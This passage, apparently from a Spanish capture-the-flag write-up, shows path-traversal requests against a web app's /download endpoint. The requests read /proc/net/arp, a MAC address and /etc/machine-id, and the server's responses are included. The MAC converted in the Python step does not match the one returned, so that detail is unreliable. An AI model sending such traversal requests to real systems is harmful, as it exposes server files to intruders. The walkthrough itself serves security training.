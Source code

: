 ```null
GET /download?fn=../proc/net/arp HTTP/1.1
```

```null
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 12 Aug 2023 09:40:37 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 156
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

IP address       HW type     Flags       HW address            Mask     Device
10.10.10.2       0x1         0x2         00:50:56:b9:75:02     *        eth0
```

Obtengo la dirección MAC

```null
GET /download?fn=../sys/class/net/eth0/address HTTP/1.1
```

```null
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 12 Aug 2023 09:41:58 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 18
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

00:50:56:b9:0c:28
```

La transformo a decimal con python

```null
python3
Python 3.11.4 (main, Jun  7 2023, 10:13:09) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print(0x005056b970d0)
345052377296
```

Me traigo el ```/etc/machineid```

```null
GET /download?fn=../etc/machine-id HTTP/1.1
```

```null
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 12 Aug 2023 09:47:32 GMT
Content-Type: text/csv; charset=utf-8
Content-Length: 37
Connection: close
Content-Disposition: attachment; filename=superpass_export.csv
Vary: Cookie

ed5b159560f54721827644bc9b220d00
```
